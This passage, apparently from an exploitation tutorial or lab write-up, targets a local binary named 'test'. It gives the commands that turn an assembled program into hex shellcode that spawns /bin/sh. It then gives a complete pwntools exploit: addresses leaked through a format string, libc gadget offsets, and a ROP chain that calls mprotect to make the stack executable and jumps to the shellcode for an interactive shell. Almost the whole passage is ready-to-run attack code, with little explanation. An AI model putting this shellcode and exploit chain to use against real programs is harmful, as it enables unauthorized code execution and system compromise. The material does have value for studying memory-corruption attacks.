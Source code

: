 The hexadecimal shellcode is obtained with the following commands.
```sh
$ nasm -f elf64 -o shell.o shell.asm
$ ld -o shell shell.o
$ for i in $(objdump -m i386:x86-64 -D shell |grep "^ " |cut -f2); do echo -n \\\\x$i; done; echo

\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05
```

Now we have all the pieces necessary to build a working exploit.
```python
#!/usr/bin/env python3
from pwn import *

# Open the process
p = process("./test", stdin=PTY)

# Calculate addresses
p.sendline("%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.")
leaked_addresses = str(p.recvline()).split(".")
shellcode_addr = int(leaked_addresses[3], 16)
stack_base = shellcode_addr - 0x1ffa0
libc_base = int(leaked_addresses[4], 16) - 0x1bebe0
mprotect_addr = libc_base + 0xf8bc0
pop_rdx_addr = libc_base + 0xcb16d
pop_rsi_addr = libc_base + 0x2890f
pop_rdi_addr = libc_base + 0x26796

# Generate shellcode
shellcode = b"\x48\x31\xc0\x48\x31\xff\xb0\x03\x0f\x05\x50\x48\xbf\x2f\x64\x65\x76\x2f\x74\x74\x79\x57\x54\x5f\x50\x5e\x66\xbe\x02\x27\xb0\x02\x0f\x05\x48\x31\xc0\xb0\x3b\x48\x31\xdb\x53\xbb\x6e\x2f\x73\x68\x48\xc1\xe3\x10\x66\xbb\x62\x69\x48\xc1\xe3\x10\xb7\x2f\x53\x48\x89\xe7\x48\x83\xc7\x01\x48\x31\xf6\x48\x31\xd2\x0f\x05"

# Generate payload
payload = b'\x90'*(120 - len(shellcode))
payload += shellcode
payload += p64(pop_rdx_addr) # POP RDX
payload += p64(0x1000007) # PROT_READ | PROT_WRITE | PROT_EXEC | PROT_GROWSDOWN
payload += p64(pop_rsi_addr) # POP RSI
payload += p64(0x1bebe0 + 120) # Length of stack
payload += p64(pop_rdi_addr) # POP RDI
payload += p64(stack_base - (stack_base % 0x1000)) # Shellcode address
payload += p64(mprotect_addr) # mprotect()
payload += p64(shellcode_addr) # Execute shellcode

# Send payload
p.sendline(payload)
p.interactive()
```
